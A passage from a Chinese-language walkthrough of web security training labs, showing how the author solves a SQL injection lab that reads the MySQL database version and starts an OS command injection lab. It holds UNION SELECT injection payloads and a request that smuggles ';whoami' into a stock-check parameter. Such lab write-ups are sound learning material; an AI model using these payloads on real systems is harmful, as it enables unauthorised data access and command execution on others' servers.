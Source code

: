 提示 `Congratulations！`



#### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

MySQL查看版本号就回到了熟悉的地方

```
' UNION SELECT @@version#
```



查询列数

```
'+UNION+SELECT+'abc','def'#
```

进行查询版本号

```
'+UNION+SELECT+@@version#
```



还是像上一道题一样

```
/filter?category='+UNION+SELECT+@@version#
```



提示 `Congratulations！`

### 命令注入（command injection）

#### Lab: OS command injection, simple case

点进去随便点一个商品进行`Check stock`按钮

然后进行抓包发送到`Repeater`，并且修改Post请求包中的内容

```
productId=1&storeId=1;whoami
```


